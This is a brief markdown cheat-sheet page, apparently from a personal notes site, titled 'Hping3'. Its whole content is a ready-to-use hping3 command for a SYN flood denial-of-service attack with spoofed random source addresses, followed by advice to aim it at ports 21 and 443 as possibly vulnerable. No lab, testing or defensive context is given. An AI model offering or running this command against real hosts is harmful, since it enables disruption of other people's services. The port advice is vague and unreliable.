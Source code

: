 ```yaml
---
layout: default
title: "|--Hping3 "
date: 2025-07-02 
tags: [networking]
---
```


- DoS using *hping3* with random source IP

- `hping3 -c 10000 -d 120 -S -w 64 -p &lt;Port&gt; --flood --rand-source &lt;Target&gt;`

- YOU CAN TARGET PORT *21* and *443* because that can be vulnerable

---
